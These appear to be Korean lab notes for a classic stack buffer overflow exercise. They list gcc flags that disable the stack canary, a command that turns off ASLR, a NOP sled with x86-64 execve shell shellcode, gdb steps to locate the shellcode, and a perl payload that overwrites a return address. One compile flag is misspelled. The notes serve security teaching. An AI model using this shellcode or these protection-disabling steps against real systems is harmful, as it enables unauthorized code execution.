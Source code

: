 #+TITLE: Buffer Overflow 공격 실습

* 버퍼 오버플로우 실습을 위한 설정
** gcc 컴파일러 설정
| option                       | description                                 |
|------------------------------+---------------------------------------------|
| -fno-stack-protector         | 스택 보호 기능(canary) 끄기                 |
| -mpreferred-stack-boundary=4 | 스택 바운더리 크기, 64비트 환경에서는 4로 지정한다. |
| -z execstack                 | 스택 실행가능하게(?)                        |
|                              |                                             |


위의 옵션을 사용한 컴파일 예
#+BEGIN_SRC bash
gcc -fno-stack-protector -mpreffered-stack-boundary=4 -z execstack shell.c -o shell
#+END_SRC

** ASLR 끄기
셸에서 다음 명령어를 실행한다.
#+BEGIN_SRC bash
sysctl -w kernel.randomize_va_space=0
#+END_SRC


* 셸 코드 환경변수 만들기
- 0x90 은 NOP (아무것도 하지 않음, No Operation) 을 의미함
- Nop 코드 다음에 셸코드를 삽입한다. 
- 셸 코드는 이곳을 참고 [fn:1]

#+BEGIN_SRC bash
export SHELLCODE=`perl -e 'print "\x90" x 2000, "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
#+END_SRC

* 실습 과정 요약
1) 셸코드 환경변수를 export 한다. (export 하면 메모리 상의 어딘가에 존재하고 있을 것이다.)

2) overflow 프로그램을 gdb 로 실행한다. 이 때 목적은 export 한 셸코드의 대략적인 주소를 알아내는 것이다. 

2-1) 메인함수에 브레이크 포인트를 건 다음 run 

2-2) x/100a $rsp 명령 실행 (메모리의 값을 확인) 해서 SHELLCODE 에서 실제 셸코드가 있는 주소에서 조금 전의 주소를 알아낸다.

3) 위의 주소를 토대로 공격 페이로드를 만들어서 overflow 프로그램에 전달한다. 

다음과 같은 명령이 사용된다. 

./overflow `perl -e 'print "X" x 24, "\x88\xeb\x.."'` // 위에서 얻어낸 주소를 리틀엔디언 방식으로 표현

X가 24번 반복되는 부분은 리턴주소까지의 24바이트를 덮어쓰기 위함이다.


* Ref
https://www.youtube.com/watch?v=eJWlg-VoCBg&list=PLRx0vPvlEmdAXwJnNtKIVeC27UmwljRYA&index=13

[fn:1] http://shell-storm.org/shellcode/files/shellcode-806.php
